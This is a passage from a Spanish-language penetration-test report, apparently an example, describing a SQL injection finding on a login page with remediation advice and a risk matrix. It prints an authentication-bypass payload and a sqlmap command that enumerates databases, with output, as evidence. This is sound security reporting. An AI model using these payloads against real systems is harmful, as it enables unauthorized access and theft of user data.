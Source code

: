 ## VULNERABILIDAD ALTA #1

### SQL Injection en Portal de Autenticación
**Severidad**: ALTA (CVSS 8.1)
**Sistema Afectado**: webserver.company.com/login.php
**Categoría**: Injection

#### Descripción Técnica
El parámetro 'username' en el formulario de login es vulnerable a SQL injection, permitiendo bypass de autenticación y extracción de datos de la base de datos.

#### Evidencia de Explotación
**Payload utilizado:**
```sql
username: admin' OR '1'='1' -- 
password: cualquier_valor
```

**Resultado**: Acceso exitoso como usuario administrador sin conocer la contraseña.

**Extracción de datos:**
```bash
sqlmap -u "http://webserver.company.com/login.php" \
       --data="username=test&password=test" \
       --dbs --batch

Available databases [3]:
[*] information_schema
[*] mysql
[*] company_db
```

#### Datos Sensibles Extraídos
- 1,247 registros de usuarios con hashes MD5
- Información personal de clientes
- Datos financieros históricos

#### Recomendaciones de Remediación
1. **Inmediato**: Implementar prepared statements
2. **Corto plazo**: Validación y sanitización de inputs
3. **Largo plazo**: Web Application Firewall (WAF)

#### Código de Ejemplo (Remediación)
```php
// VULNERABLE (actual)
$query = "SELECT * FROM users WHERE username = '$username'";

// SEGURO (recomendado)
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$username]);
```
```

### 4. Análisis de Riesgo

```markdown
# ANÁLISIS DE RIESGO

## Matriz de Riesgo

| Vulnerabilidad | Probabilidad | Impacto | Riesgo Final |
|---|---|---|---|
| Log4Shell RCE | Alta | Crítico | **CRÍTICO** |
| SQL Injection | Alta | Alto | **ALTO** |
| SSH Brute Force | Media | Medio | **MEDIO** |
```